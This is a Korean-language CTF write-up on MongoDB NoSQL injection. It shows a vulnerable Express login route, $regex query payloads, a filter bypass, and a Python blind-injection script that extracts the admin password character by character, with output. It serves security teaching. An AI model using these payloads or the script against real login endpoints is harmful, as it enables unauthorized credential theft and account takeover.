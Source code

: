 # NoSQL-Injection
SQL Injection과 매우 유사한 방식이고, 두 공격 모두 이용자의 입력값이 쿼리에 포함되면서 발생하는 문제점이다. MongoDB의 NoSQL Injection 취약점은 주로 이용자의 입력값에 대한 타입 검증이 불충분할 때 발생한다

# Mango(Exercies)
admin의 계정 비밀번호가 flag 값이다. 아래는 express 프레임워크로 실행 중인 문제 코드이다.

```javascript
const express = require('express');
const app = express();

const mongoose = require('mongoose');
mongoose.connect('mongodb://localhost/main', { useNewUrlParser: true, useUnifiedTopology: true });
const db = mongoose.connection;

// filter 함수 ==============================
// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];

filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}
// ================================================

app.get('/login', function(req, res) {
    if(filter(req.query)){  // filter  함수가 실행된다
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query;

    db.collection('user').findOne({ // db에서 uid, upw 검색
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){
            res.send('err');
        }else if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
});

app.get('/', function(req, res) {
    res.send('/login?uid=guest&upw=guest');
});

app.listen(8000, '0.0.0.0');

```
1. `/login` 페이지 요청시에서는 이용자가 쿼리로 전달한 uid, upw로 데이터에비스를 검색하고 찾아낸 이용자의 정보를 반환한다
2.  filter 함수는 일부 문자열을 필터링하는 함수이다. 필터링 함수는 admin, dh, admi 라는 문자열이 있을 때 true를 반환한다
3. 코드에서 db에서 uid,upw 검색하는 부분을 보면 쿼리 변수의 타입을 검사하지 않는다. 이로 인해서 타입이 string 뿐만아니라 object 타입도 쿼리가 가능하기 때문에 NoSQL Injection 공격이 가능해진다.

# 익스플로잇
`/login?uid=guest&upw=guest`을 입력하면 이용자의 uid만 출력된다. flag 를 얻기 위해선 upw를 획득해야하기 때문에 다음과 같은 방법으로 익스플로잇한다
1. Blind NoSQL Injection Payload 생성
`$regex` 연산을 사용하여 정규표현식을 이용해 데이터를 검색한다.
```
/login?uid=guest&upw[$regex]=.*

guest
```
만약 upw가 일치하는 경우 uid를, 아닌경우 undefined 문자열이 출력되는 것을 통해 참과 거짓을 확인 할 수 있다

2. filter 우회
filter 함수는 admin, dh, admi 문자열을 필터링하지만 정규표현식에서 임의 문자를 표현하는 `.`을 이용하여 쉽게 우회한다
```
/login?uid[$regex]=ad.in&upw[$regex]=D.{*

admin
```

3. Exploit Code 작성
이제는 한글자씩 알아내야하므로, 여러번 쿼리를 전달해야하는데 이를 자동화하는 스크립트 코드를 작성하여 실행한다.
```python
import requests, string

HOST = 'http://localhost'
ALPHANUMERIC = string.digits + string.ascii_letters
SUCCESS = 'admin'

flag = ''

for i in range(32):
    for ch in ALPHANUMERIC:
        response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=D.{{{flag}{ch}')
        if response.text == SUCCESS:
            flag += ch
            break
    
    print(f'FLAG: DH{{{flag}}}')

# kali linux 에서 코드 작성 후 실행
└─$ python3 nosql.py 
FLAG: DH{8}
FLAG: DH{89}
FLAG: DH{89e}
FLAG: DH{89e5}
FLAG: DH{89e50}
FLAG: DH{89e50f}
FLAG: DH{89e50fa}
FLAG: DH{89e50fa6}
FLAG: DH{89e50fa6f}
FLAG: DH{89e50fa6fa}
FLAG: DH{89e50fa6faf}
FLAG: DH{89e50fa6fafe}
FLAG: DH{89e50fa6fafe2}
FLAG: DH{89e50fa6fafe26}
FLAG: DH{89e50fa6fafe260}
FLAG: DH{89e50fa6fafe2604}
FLAG: DH{89e50fa6fafe2604e}
FLAG: DH{89e50fa6fafe2604e3}
FLAG: DH{89e50fa6fafe2604e33}
FLAG: DH{89e50fa6fafe2604e33c}
FLAG: DH{89e50fa6fafe2604e33c0}
FLAG: DH{89e50fa6fafe2604e33c0b}
FLAG: DH{89e50fa6fafe2604e33c0ba}
FLAG: DH{89e50fa6fafe2604e33c0ba0}
FLAG: DH{89e50fa6fafe2604e33c0ba05}
FLAG: DH{89e50fa6fafe2604e33c0ba058}
FLAG: DH{89e50fa6fafe2604e33c0ba0584}
FLAG: DH{89e50fa6fafe2604e33c0ba05843}
FLAG: DH{flag                         }
FLAG: DH{flag                          }
FLAG: DH{flag                           }
FLAG: DH{flag 가리기~~~!!!!!!!!!!!!!!!!!!}
```
위와 같이 코드를 작성하여 실행 시키면 flag 값을 획득 할 수 있다.
